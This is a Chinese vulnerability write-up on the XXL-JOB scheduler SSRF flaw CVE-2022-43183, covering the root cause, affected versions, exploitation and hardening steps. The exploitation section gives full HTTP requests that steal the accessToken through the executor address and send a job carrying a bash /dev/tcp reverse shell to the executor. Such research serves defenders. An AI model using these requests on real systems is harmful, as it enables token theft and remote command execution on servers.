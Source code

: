 #  漏洞研究(8)：XXL-JOB调度中心后台日志查看SSRF漏洞 CVE-2022-43183   
原创 罗锦海  OneMoreThink   2025-05-16 16:00  
  
1. 组件介绍  
  
1. 原理与危害  
  
1. 影响版本  
  
1. 利用方式  
  
1. 加固措施  
  
1. 修改默认口令  
  
1. 限制端口访问  
  
1. 升级至安全版本  
  
## 1. 组件介绍  
  
XXL-JOB是一个分布式**任务调度**  
平台，分为调度中心和执行器两部分。  
  
在调度中心添加执行器后，调度中心可以对执行器进行命令执行，属于集权系统，可以帮助攻击者批量获取服务器权限。  
  
同时，通过调度中心横向到执行器，往往可以帮助攻击者实现跨网横移，这在网络策略严格的环境中具有较大价值。  
## 2. 原理与危害  
  
调度中心后台用户查看执行器调度日志时，请求中会指定执行器的IP地址和端口号，让调度中心去该IP地址的执行器获取调度日志。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hJB695EcV91yphAXTXq2Y53BSM7rlLzWhbSb1nZ8zOe1siaibUnHBkklPa4LzLicEWqbq6Rov3lQoWosEH8hqybyw/640?from=appmsg "")  
  
由于调度中心没有对该IP地址进行校验，因此用户可以指定任意IP地址，导致调度中心后台存在SSRF漏洞。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hJB695EcV91yphAXTXq2Y53BSM7rlLzWUElhmeFuDUe9Aj6mezmsGqQvV7WJogMktnBguicRMJhmQYiaafOSbgAQ/640?from=appmsg "")  
  
由于调度中心去执行器的IP地址获取调度日志时，携带了通信密钥accessToken，因此恶意用户可以将执行器的IP地址指定为他可控的HTTP服务器，从而窃取XXL-JOB的通信密钥。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hJB695EcV91yphAXTXq2Y53BSM7rlLzW2ib65y6j40MxyNrXVQpBRWo4ZDY8UCt0lQxKOTdZMvx6wBHYPks3H0A/640?from=appmsg "")  
  
这在恶意用户仅获取XXL-JOB调度中心的普通用户权限时会有价值。当普通权限的恶意用户**没有任何执行器的权限**  
，或者**只有部分执行器的权限**  
时，攻击者如果想要**获取所有执行器的权限**  
，  
  
可以利用SSRF漏洞窃取accessToken，进而伪装成调度中心，与所有执行器进行调度通信，对执行器所在的服务器进行任意命令执行，从而获得执行器所在服务器的权限。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hJB695EcV91yphAXTXq2Y53BSM7rlLzWmbjrwr6GnRXWKOBfic0aWN0sAO9EQY8KIejaPiafU6Gr5UYC88gxXwdA/640?from=appmsg "")  
  
参考链接： https://github.com/xuxueli/xxl-job/issues/3002  
## 3. 影响版本  
  
该漏洞已在2.4.0版本修复，受影响版本是XXL-JOB <= 2.3.1  
。  
## 4. 利用方式  
  
第一步：由于这是一个web管理后台的漏洞，因此首先需要通过弱口令、口令泄漏等方式，拿到XXL-JOB的帐号密码，并登录web管理后台，拿到Cookie。  
  
第二步：利用SSRF漏洞，窃取XXL-JOB的accessToken。  
```
POST /xxl-job-admin/joblog/logDetailCat HTTP/1.1Host: 10.58.81.107:8083Content-Type: application/x-www-form-urlencoded; charset=UTF-8Cookie: xxljob_adminlte_settings=on; XXL_JOB_LOGIN_IDENTITY=7b226964223a312c22757365726e616d65223a2261646d696e222c2270617373776f7264223a226531306164633339343962613539616262653536653035376632306638383365222c22726f6c65223a312c227065726d697373696f6e223a6e756c6c7dContent-Length: 99executorAddress=http%3A%2F%2F10.58.81.119%3A1234%2F&triggerTime=1745652569000&logId=2&fromLineNum=1
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hJB695EcV91yphAXTXq2Y53BSM7rlLzWUElhmeFuDUe9Aj6mezmsGqQvV7WJogMktnBguicRMJhmQYiaafOSbgAQ/640?from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hJB695EcV91yphAXTXq2Y53BSM7rlLzW2ib65y6j40MxyNrXVQpBRWo4ZDY8UCt0lQxKOTdZMvx6wBHYPks3H0A/640?from=appmsg "")  
  
第三步：利用accessToken，伪装成调度中心与执行器进行调度通信，对执行器所在的服务器执行任意命令，从而获得执行器所在服务器的权限。  
```
POST /run HTTP/1.1Host: 10.58.81.107:9999XXL-JOB-ACCESS-TOKEN: OneMoreThink666666Content-Length: 383{  "jobId": 1,  "executorHandler": "demoJobHandler",  "executorParams": "demoJobHandler",  "executorBlockStrategy": "COVER_EARLY",  "executorTimeout": 0,  "logId": 1,  "logDateTime": 1745646241,  "glueType": "GLUE_SHELL",  "glueSource": "bash -i >& /dev/tcp/10.58.81.119/8888 0>&1",  "glueUpdatetime": 1745646241,  "broadcastIndex": 0,  "broadcastTotal": 0}
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hJB695EcV91yphAXTXq2Y53BSM7rlLzWvf7hbLrYKfmFIfHfViazNnly3tlC5JeW5707F1n7QQYx1njnwtEvKQw/640?from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hJB695EcV91yphAXTXq2Y53BSM7rlLzWrV9bEwQ09jChiaGpUwUtYIm8oeERria9AOhYzajp1XckxETiazZHialheg/640?from=appmsg "")  
## 5. 加固措施  
### 5.1 修改默认口令  
  
点击右上角的欢迎 admin  
，选择修改密码，修改后会退出登录。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hJB695EcV91yphAXTXq2Y53BSM7rlLzWoXlI6TgGNfMkicMonZaqkzHyhuHfGbYibWQh7GHh0amC24IBSRsqjBBQ/640?from=appmsg "")  
  
请注意：登录密码不应超过18位，因为前端登录时会对密码进行截取。XXL-JOB >= 2.1.1  
时前端无法改成超过18位的密码，但XXL-JOB < 2.1.1  
时可以，导致修改密码后无法登录。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hJB695EcV91yphAXTXq2Y53BSM7rlLzWj90WyuwoPBAdFIibgic6zicnz2FscHpawibHPe6lXBaeia1WmsE4Ng6sGWw/640?from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hJB695EcV91yphAXTXq2Y53BSM7rlLzWWECjuG84qxlxTTrYVQBMFFBoRW30Z8FUZ5VtFbzC0rSC9PL5pzD5yQ/640?from=appmsg "")  
  
此时使用默认口令登录，提示帐号或密码错误，说明漏洞修复成功。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hJB695EcV91yphAXTXq2Y53BSM7rlLzWfRGPnUd0KRqelOBicLcpOKf3Q6gWAcAllzrB8MnzJLFlb0qeScf67icA/640?from=appmsg "")  
### 5.2 限制端口访问  
  
在**执行器所在的服务器**  
中配置本地防火墙，只允许调度中心访问执行器的9999端口。  
```
# 如果担心已有规则干扰，可将允许规则插入到链的顶部。# 即时调度中心和执行器在同一台服务器中，该命令不会影响调度中心对执行器的正常通信。iptables -I INPUT 1 -p tcp -s 10.58.81.107 --dport 9999 -j ACCEPT# 拒绝其他所有IP访问9999端口iptables -A INPUT -p tcp --dport 9999 -j DROP# 永久保存规则（CentOS中）yum install iptables-services -y && service iptables save && systemctl enable iptables
```  
  
再次对执行器进行未授权任意代码执行，如果没有响应，连接失败，说明漏洞修复成功。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hJB695EcV91yphAXTXq2Y53BSM7rlLzWuTuu3icMzNmib9OHJQ04rUoqW1sTJhJAN1WyHEzZPupyPwLEd6KMwibJg/640?from=appmsg "")  
### 5.3 升级至安全版本  
  
建议升级至2.4.1及以上版本。  
  
